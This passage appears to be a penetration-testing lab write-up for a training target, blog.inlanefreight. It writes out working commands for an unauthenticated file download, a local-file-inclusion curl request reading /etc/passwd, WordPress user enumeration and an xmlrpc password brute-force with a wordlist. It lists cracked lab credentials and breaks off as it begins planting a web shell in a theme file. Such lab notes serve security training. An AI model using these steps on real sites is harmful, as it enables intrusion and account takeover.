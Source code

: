 * email-subscribers (4.2.2) : [https://www.exploit-db.com/exploits/48698](https://www.exploit-db.com/exploits/48698)
* site-editor (1.1.1)
* the-event-calendar (5.1.2.1)

### Exploits

The exploit for the plugin email-subscribed is an Unauthenticated File Download on this link.

```
http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all
```

* The flag is in this file.
* The exploit for the plugin site-editor is a LFI exploit.

```bash
curl http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

* But I can't find the flag in `/home/erika` with this vulnerability.
* I can get the users (on the website, I can see it exists at least 2 users : erica and admin).

```bash
wpscan --enumerate u --url http://blog.inlanefreight.htb
```

* The users are **admin**, **erika** & **charlie**. I can crack their passwords.

```bash
wpscan --url http://blog.inlanefreight.htb -t 20 \
  -U admin,erika,charlie \
  --password-attack xmlrpc \ 
  -P /usr/share/wordlists/rockyou.txt
```

* The credentials are `erika:010203` & `charlie:soccer13`.

#### Web Shell

Now, I'm logged as `erika` and has administrator access on the WordPress dashboard. I can update an inactive theme like `TwentySeventeen` and the file `404.php` :

<figure><img src="../../.gitbook/assets/theme.png" alt=""><figcaption></figcaption></figure>
